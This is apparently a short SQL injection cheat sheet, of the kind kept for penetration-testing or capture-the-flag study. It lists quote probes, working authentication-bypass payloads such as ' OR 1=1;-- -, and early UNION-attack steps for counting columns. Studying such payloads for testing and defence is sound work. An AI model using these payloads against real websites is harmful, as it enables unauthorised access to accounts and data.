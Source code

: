 # Sql injection

## Test is website is vulnerable to SQL injection

Try one of these

```
  '
  "
```

## Authentication Bybass

NOTE: when using comment double dash is not enought, either use double dash with space `-- ` or use additions dash `-- -` for comment to work properly.

`' OR 1=1;-- ` 

`' OR 1=1;-- -`

`' OR '1'='1;-- -`

If you know username 

`admin' OR 1 = 1;-- `

`addmin')-- `

`' or 1=1 and id=5)-- `

## Union Attack

A UNION statement can only operate on SELECT statements with an equal number of columns. For example, if we attempt to UNION two queries that have results with a different number of columns, we get the following error:

`ERROR 1222 (21000): The used SELECT statements have a different number of columns`

### Find number of colums

#### Using UNION

we can use any string as our junk data, and the query will return the string as its output for that column. If we UNION with the string "junk", the SELECT query would be SELECT "junk" from passwords, which will always return junk. We can also use numbers. For example, the query SELECT 1 from passwords will always return 1 as the output.

Note: When filling other columns with junk data, we must ensure that the data type matches the columns data type, otherwise the query will return an error. For the sake of simplicity, we will use numbers as our junk data, which will also become handy for tracking our payloads positions, as we will discuss later.

Tip: For advanced SQL injection, we may want to simply use 'NULL' to fill other columns, as 'NULL' fits all data types.
